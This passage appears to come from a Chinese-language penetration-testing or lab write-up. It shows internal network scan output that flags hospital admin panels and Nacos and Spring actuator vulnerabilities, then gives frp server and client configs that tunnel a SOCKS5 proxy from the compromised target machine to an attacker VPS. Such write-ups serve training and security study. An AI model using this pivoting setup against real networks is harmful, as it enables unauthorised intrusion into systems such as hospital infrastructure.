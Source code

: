 ```
172.30.12.6:135 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.236:8009 open
172.30.12.6:8848 open
[*] alive ports len is: 9
start vulscan
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转url: http://172.30.12.5:8080/login;jsessionid=E98AA97DE9EC60F59EF5111AF75C2940
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02          
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=E98AA97DE9EC60F59EF5111AF75C2940 code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file 
```

有如下两个资产

```
http://172.30.12.6:8848 poc-yaml-alibaba-nacos poc-yaml-alibaba-nacos-v1-auth-bypass 
http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
```

上传frp进行socks5代理

vps frps.ini

```cobol
[common]
bind_port = 7000
```

靶机 frpc.ini

```cobol
[common]
tls_enable = true
server_addr =vps的ip
server_port = 7000

[socks5]
type = tcp
remote_port = 6000
plugin = socks5
```

